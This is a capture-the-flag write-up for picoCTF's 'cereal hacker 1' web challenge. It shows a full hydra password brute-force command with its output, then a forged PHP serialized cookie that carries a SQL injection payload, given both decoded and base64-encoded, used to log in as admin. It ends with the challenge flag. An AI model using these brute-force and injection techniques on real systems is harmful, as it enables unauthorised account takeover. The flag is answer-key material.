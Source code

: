 # cereal hacker 1

## Problem

> Login as admin. <https://2019shell1.picoctf.com/problem/49879/> or <http://2019shell1.picoctf.com:49879>

* [Website](https://2019shell1.picoctf.com/problem/49879/)

## Solution

1. Credential bruteforcing: The credentials can be found with `hydra` and the `http[s]-{get|post}-form` module. Module help can be printed with `hydra http-post-form -U`. This article about [using hydra on a web-based login page](https://linuxhint.com/crack-web-based-login-page-with-hydra-in-kali-linux/) was somewhat helpful in this step. Final command:

    ```bash
    hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt -F 2019shell1.picoctf.com -s 49879 http-post-form "/index.php?file=login:user=^USER^&pass=^PASS^:Invalid Login"
    ```

    The `user=` and `pass=` are the post variables found from the debugging console in Firefox. See image below.
    ![Image of networking tab in Firefox showing form parameters](post-request-params.png)

    Result:

    ```bash
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    [INFORMATION] reading restore file ./hydra.restore
    [WARNING] options after -R are now honored (since v8.6)
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-31 22:10:14
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 170000 login tries (l:17/p:10000), ~10625 tries per task
    [DATA] attacking http-post-form://2019shell1.picoctf.com:49879/index.php?file=login:user=^USER^&pass=^PASS^:Invalid Login
    [STATUS] 4115.00 tries/min, 4115 tries in 00:01h, 165885 to do in 00:41h, 16 active
    [STATUS] 2981.33 tries/min, 8944 tries in 00:03h, 161056 to do in 00:55h, 16 active
    [STATUS] 2691.71 tries/min, 18842 tries in 00:07h, 151158 to do in 00:57h, 16 active
    [49879][http-post-form] host: 2019shell1.picoctf.com   login: guest   password: guest
    [STATUS] attack finished for 2019shell1.picoctf.com (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-31 22:23:17
    ```

2. Login as `guest:guest`.
3. Get cookie
4. URL and Base64Decode:
    * Option 1: Use [URLdecoder](https://www.urldecoder.org/) to decode the cookie twice then use [base64decoder](https://www.base64decode.org/) to decode what you get from [URLdecoder](https://www.urldecoder.org/) to get: `O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}`
    * Option 2: Use [CyberChef](https://gchq.github.io/CyberChef/) with this recipe: `[{"op":"URL Decode","args":[]},{"op":"URL Decode","args":[]},{"op":"From Base64","args":["A-Za-z0-9+/=",true]}]`.
5. Change that result to `O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:11:"' or '1'='1";}` (`s:11` and not `s:5` because the number corresponds to the length of the string which is PHP standard)
6. Encoding
    * Option 1: Encode using [base64encode](https://www.base64encode.org/) to get `TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTE6Iicgb3IgJzEnPScxIjt9`. If there are equal signs after the cookie is base64 encoded then run the base64 encoded string through [URLencoder](https://www.urlencoder.org/) twice.
    * Option 2: Use [CyberChef](https://gchq.github.io/CyberChef/) with this recipe: `[{"op":"To Base64","args":["A-Za-z0-9+/="]},{"op":"URL Encode","args":[true]},{"op":"URL Encode","args":[true]}]`.
7. Set cookie to new cookie
8. Change URL to `file=admin`
9. You got the flag

### Flag

`picoCTF{0d040919669d2bc1501212f90450eb4c}`
